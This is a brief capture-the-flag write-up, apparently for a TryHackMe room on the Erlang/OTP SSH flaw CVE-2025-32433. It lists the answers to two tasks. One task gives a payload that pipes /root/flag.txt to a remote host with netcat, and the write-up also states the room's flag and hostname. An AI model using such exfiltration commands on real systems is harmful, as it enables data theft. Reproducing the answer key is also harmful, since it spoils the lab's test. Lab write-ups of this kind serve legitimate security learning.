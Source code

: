 > # Erlang/OTP SSH: CVE-2025-32433
## Summary 
- [Summary](#summary)
  - [Task 2 - Technical Background and Exploitation](#task-2---technical-background-and-exploitation)

### Task 2 - Technical Background and Exploitation
1. What is the flag hidden in the root directory?<br>
    Payload `cat /root/flag.txt | nc IP 4444`.<br>
    **Answer:** THM{U57U3P5KnR}

1. What is the hostname of the system?<br>
    Use `hostname`.<br>
    **Answer:** c7b79fd068ba
